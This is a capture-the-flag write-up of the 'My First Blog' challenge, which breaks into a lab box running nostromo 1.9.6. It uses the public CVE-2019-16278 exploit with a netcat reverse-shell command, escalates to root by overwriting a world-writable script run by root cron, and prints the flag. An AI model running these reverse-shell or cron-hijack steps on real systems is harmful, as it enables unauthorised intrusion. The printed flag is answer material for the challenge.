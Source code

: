 # My First Blog

![desc](img/desc.png)

> Here is a link to my new blog! I read about a bunch of exploits in common server side blog tools so I just decided to make my website static. Hopefully that should keep it secure.
>
> Root owns the flag.
>
> http://172.30.0.2/

# Reconnaissance

Let's take a look at the reponse for `GET /` (by going to the URL in the description) in Burp:
```html
HTTP/1.1 200 OK
Date: Mon, 23 Mar 2020 07:53:35 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Sat, 21 Mar 2020 23:05:22 GMT
Content-Length: 3682
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">

<head>
    <meta name="generator" content="Hugo 0.54.0" />
        
        <meta charset="utf-8">
<!-- truncated for writeup -->
```

We see a webserver called `nostromo` and it's version number: `1.9.6`. If you Google `nostromo 1.9.6 vulnerability`, you'll find [this Exploit DB entry](https://www.exploit-db.com/exploits/47837) for CVE-2019-16278, a RCE (remote code execution) vulnerability in `nostromo`.

# Initial Compromise

Using the RCE script mentioned previously, we can setup a reverse shell via `nc` and connect to the box:

```
# in one window
$ ./cve2019_16278.py 172.30.0.2 80 'nc -e /bin/bash [ip] 4444

# in another window
$ nc -lvp 4444
listening on [any] 4444 ...
172.30.0.2: inverse host lookup failed: Unknown host
connect to [ip] from (UNKNOWN) [172.30.0.2] 59234
id
uid=1000(webserver) gid=1000(webserver) groups=1000(webserver)
```

Great! We have a shell as the `webserver` user. Unfortunately, we need to get to root in order to get the flag.

# Privilege Escalation

One of the first things I look for when doing privilege escalation on HackTheBox is a vulnerable crontab entry, so let's take a look at the cronjobs on the system:
```
$ cat /etc/*cron*
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/bin/healthcheck
```

The entry `* * * * * root /usr/bin/healthcheck` catches my eye, let's see what that file is:

```
$ ls -al /usr/bin/healthcheck
-rwxrwxrwx 1 root root 24 Mar 23 07:44 /usr/bin/healthcheck
$ cat /usr/bin/healthcheck
#!/bin/bash
nc -z localhost 80
if [ $? == 1 ]; then
        echo "nhttpd is dead, restarting."
        nhttpd
fi
```

Yay, it's world writable! We can write our own shell script to the file and then cron will execute it!

Since I didn't know the exact path to the flag and each team has their own box, I used the following script:

```
cat /root/* > /tmp/flag
```

If we write that to `/usr/bin/healthcheck`, we should get the flag!

```
$ echo "cat /root/* > /tmp/flag" > /usr/bin/healthcheck
# wait a little while
$ cat /tmp/flag
gigem{l1m17_y0ur_p3rm15510n5}
```